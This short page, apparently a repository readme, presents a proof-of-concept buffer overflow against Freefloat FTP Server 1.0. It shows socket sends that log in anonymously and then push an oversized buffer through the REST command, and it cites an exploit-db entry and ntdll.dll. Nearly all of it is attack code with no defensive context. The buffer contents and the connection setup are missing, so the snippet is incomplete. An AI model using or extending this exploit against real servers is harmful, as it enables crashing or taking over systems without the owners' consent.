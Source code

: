 # Buffer-Overflow in Freefloat FTP Server 1.0 -'REST'

POC ==>
s.send("USER anonymous\r\n")
s.recv(1024)
s.send("PASS anonymous\r\n")
s.recv(1024)
s.send("REST " + buffer + "\r\n")
s.send("QUIT\r\n")

Vulnerable dll : ntdll.dll
ref : https://www.exploit-db.com/exploits/17546
